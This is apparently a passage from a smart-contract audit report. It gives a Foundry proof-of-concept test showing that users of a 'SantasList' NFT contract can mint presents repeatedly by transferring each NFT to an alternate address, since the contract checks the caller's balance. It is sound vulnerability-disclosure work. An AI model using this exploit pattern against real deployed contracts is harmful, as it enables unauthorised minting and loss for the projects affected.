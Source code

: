 ## PoC
Refactor the import in file `test/unit/SantasListTest.t.sol`: (Vm is used to get array to get the Log array to store recorded event logs)
```cpp
import {Test} from "forge-std/Test.sol";
```
to
```cpp
import {Vm, Test} from "forge-std/Test.sol";
```
Add the test in the file `test/unit/SantasListTest.t.sol` Run the test:
```cpp
forge test --mt test_UsersCanMintInfiniteNft_By_TransferingItToTheirOtherAddress
```

```cpp
function test_UsersCanMintInfiniteNft_By_TransferingItToTheirOtherAddress() public {
    // the alternate address of user
    address userAlternateAddr = makeAddr("userAlternateAddr");

    vm.startPrank(santa);

    // Santa checks user once
    santasList.checkList(user, SantasList.Status.NICE);

    // Santa checks user second time
    santasList.checkTwice(user, SantasList.Status.NICE);

    vm.stopPrank();

    // christmas time 🌳🎁  HO-HO-HO
    vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME());

    vm.recordLogs();

    // user collects the present
    vm.prank(user);
    santasList.collectPresent();

    Vm.Log[] memory logs = vm.getRecordedLogs();
    uint256 tokenId = uint256(logs[0].topics[3]);

    // once the user collects present, they should not be able to collect it again
    // but due to the weak check in codebase, users can trick the codebase by transfering
    // their minted NFT to their alt. address and thus bypassing the check

    // user transfers their nft to other address
    vm.prank(user);
    santasList.transferFrom(user, userAlternateAddr, tokenId);

    // now the balance of the user's nft becoeme 0 and they can bypass the duplicate nft check
    // user again calls the collect present function and mints an nft
    vm.recordLogs();
    vm.prank(user);
    santasList.collectPresent();

    logs = vm.getRecordedLogs();
    uint256 newTokenId = uint256(logs[0].topics[3]);

    assert(newTokenId != tokenId);
    assertEq(santasList.ownerOf(newTokenId), user);

    // thus the user was able to mint nft twice
    // they can continue to mint nft as many times they want by transferring their prev nft
```